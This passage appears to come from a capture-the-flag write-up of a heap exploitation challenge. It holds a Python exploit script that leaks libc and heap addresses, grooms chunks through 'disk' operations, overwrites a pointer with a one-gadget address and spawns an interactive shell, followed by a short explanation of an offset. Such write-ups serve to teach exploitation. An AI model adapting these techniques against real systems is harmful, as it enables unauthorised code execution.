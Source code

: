 ```python
deleteDisk(40)


libcLeak = readDisk(41)
libcLeak = libcLeak[:-1]
libcLeak = paddTo64(libcLeak)
libcLeak = struct.unpack('<Q', libcLeak)[0]


print("[*] libcLeak = " + hex(libcLeak))


oneGadgetAddr = libcLeak - offsetFromOneGadget


print ("[*] oneGadgetAddr = " + hex(oneGadgetAddr))


print("[*] Data from the first allocated disk is located at : " + hex(heapLeak + 0x30))


print("[@] Cleaning disks and starting the exploitation...")
deleteDisk(41)


createDisk(8, 42)
createDisk(8, 41)
createDisk(8, 40)
createDisk(16, 38)
createDisk(16, 39)


writeDisk(39, struct.pack('<Q', oneGadgetAddr))
writeDisk(38, struct.pack('<Q', heapLeak + 0x220 ) + (("a" * 8) * 0x3) + struct.pack('<Q', heapLeak + 0x260))
final(39)
io.sendline("id")
#io.sendline("cat flag.txt") # that's how to validate the challenge
io.interactive()
```

One last thing to know if you want to understand why I added 0x220 to
`heapleak`.  It is because the leak is the address of the very first allocated
disk.

And there we are!

